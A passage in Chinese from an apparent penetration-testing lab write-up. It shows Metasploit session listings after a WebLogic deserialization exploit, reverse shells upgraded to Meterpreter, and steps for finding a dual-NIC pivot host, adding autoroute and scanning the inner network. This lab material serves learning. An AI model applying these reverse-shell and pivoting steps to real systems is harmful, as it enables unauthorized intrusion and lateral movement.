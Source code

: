 升级会话和找到连接内层网络的跳板主机，使用`jobs -l`确认后台执行完成后3个会话都升级到了`meterpreter`

```bash
Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:68768 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.172.84.4  192.168.76.128:4433 -> 192.168.0.106:60687 (172.29.108.146)
  3         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60640 (192.172.84.2)
  4         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60630 (192.172.84.3)
  5         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60763 (192.172.84.5)
  6         meterpreter x86/linux  root @ 192.172.84.2  192.168.76.128:4433 -> 192.168.0.106:60854 (192.172.84.2)

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 6
[*] Starting interaction with 6...
```

接下来，需要对中层网络中的三个主机逐一进行检索和判断是否拥有双网卡，从而利用成为跳板机来访问到内层网络的靶机

```bash
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:68768 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.172.84.4  192.168.76.128:4433 -> 192.168.0.106:60687 (172.29.108.146)
  3         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60640 (192.172.84.2)
  4         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60630 (192.172.84.3)
  5         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60763 (192.172.84.5)
  6         meterpreter x86/linux  root @ 192.172.84.2  192.168.76.128:4433 -> 192.168.0.106:60854 (192.172.84.2)
  7         meterpreter x86/linux  root @ 192.172.84.3  192.168.76.128:4433 -> 192.168.0.106:60722 (192.172.84.3)
  8         meterpreter x86/linux  root @ 192.173.85.3  192.168.76.128:4433 -> 192.168.0.106:60632 (192.172.84.5)
```

6号会话并不是拥有双网卡的目标跳板主机，剩下的就是对7号和8号会话进行确认，确认到8号会话没有问题后回到`msfconsole`执行`autoroute`的模块添加通过8号会话的路由转发规则，此时就可以直接在`msfconsole`通过`ping_sweep`和`portscan/tcp`来直接进行扫描

